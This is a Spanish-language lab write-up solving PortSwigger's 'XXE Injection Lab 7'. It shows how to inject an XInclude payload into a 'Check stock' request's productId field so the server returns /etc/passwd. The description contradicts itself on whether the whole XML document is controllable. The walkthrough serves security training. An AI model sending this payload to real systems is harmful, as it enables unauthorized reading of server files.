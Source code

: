 ```yaml
---
title: "XXE Injection Lab 7"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XInclude to retrieve files
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting XInclude to retrieve files

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que `inserta` la `entrada` del `usuario` dentro de un `documento XML` en el `servidor`, el cual se procesa posteriormente. Dado que podemos controlar todo el `documento XML`, no podemos `definir` un `DTD` para lanzar un ataque `XXE` clásico. Para `resolver` el `laboratorio`, `inyecta` una `declaración XInclude` para `obtener` el `contenido` del archivo `/etc/passwd`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-7/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-7/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se están tramitando dos campos

![](/assets/img/XXE-Injection-Lab-7/image_3.png)

Como no tenemos el control sobre el `documento XML` completo, no podemos `cargar` un `DTD`, sin embargo, podemos usar la función `XInclude` para `cargar contenido`

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

`Enviamos` este `payload`, este importante `probar todos los campos` para saber cual es el `vulnerable`

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

`Obtenemos` la `respuesta` del `servidor`, la cual nos `muestra` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-7/image_4.png)
